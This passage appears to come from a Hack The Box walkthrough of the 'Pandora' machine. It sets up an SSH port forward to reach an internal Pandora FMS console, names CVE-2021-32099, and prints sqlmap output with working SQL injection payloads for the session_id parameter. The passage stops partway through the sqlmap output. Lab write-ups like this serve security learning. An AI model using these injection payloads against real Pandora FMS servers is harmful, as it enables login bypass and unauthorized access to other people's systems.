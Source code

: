 For this case, it is like this: \
`ssh -L 8080:localhost:80 daniel@10.10.11.136`

Now we can see the website in our browser.

<img src="/assets/img/htb/pandora3.png" alt="panda.htb">

#### Vulnerability

I found this SQL injection vulnerability:
* [CVE-2021-32099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-32099): A SQL injection vulnerability in the pandora_console component of Artica Pandora FMS 742 allows an unauthenticated attacker to upgrade his unprivileged session via the /include/chart_generator.php session_id parameter, leading to a login bypass. 

Let's try this with sqlmap:

```
❯ sqlmap --url "http://localhost:8080/pandora_console/include/chart_generator.php?session_id=''"
        ___
       __H__
 ___ ___[)]_____ ___ ___ {1.6.5#stable}
|_ -| . [)] | .'| . |
|___|_ ["]_|_|_|__,| _|
      |_|V... |_| https://sqlmap.org


[*] starting @ 15:11:24 /2022-05-17/

...
GET parameter 'session_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 241 HTTP(s) requests:
---
Parameter: session_id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: session_id=-9717' OR 2914=2914#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: session_id=''' OR (SELECT 5582 FROM(SELECT COUNT(*),CONCAT(0x717a7a6b71,(SELECT (ELT(5582=5582,1))),0x71716a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- qXuw

    Type: time-based blind
```